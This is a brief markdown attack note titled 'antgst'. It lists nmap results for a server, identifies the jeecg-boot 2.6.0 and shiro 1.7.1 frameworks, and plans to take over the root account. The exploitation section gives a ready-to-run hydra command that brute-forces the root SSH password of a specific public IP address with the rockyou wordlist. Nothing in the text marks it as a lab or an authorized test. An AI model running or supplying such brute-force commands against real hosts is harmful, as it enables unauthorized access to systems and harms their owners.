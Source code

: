# antgst

## enumeration

the output port following the nmap scan is:

```bash
22/tcp    open  ssh                   OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http                  nginx 1.20.2
443/tcp   open  ssl/http              nginx 1.20.2
```

framework use the `jeecg-boot` version `2.6.0` and `shiro` version `1.7.1`. The `jeecg-boot` is a popular java framework for building web applications. The `shiro` is a powerful and flexible open-source security framework that performs authentication, authorization, cryptography, and session management.

### ssh

the root user is open the password login, so we maybe can brute force the password.

## exploitation

### ssh brute force

we can use the `hydra` to brute force the password. the sever ip is `161.117.236.154` and the username is `root`. the password list is `/usr/share/wordlists/rockyou.txt`.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -v -t 10 -o results.txt 161.117.236.154 ssh
```
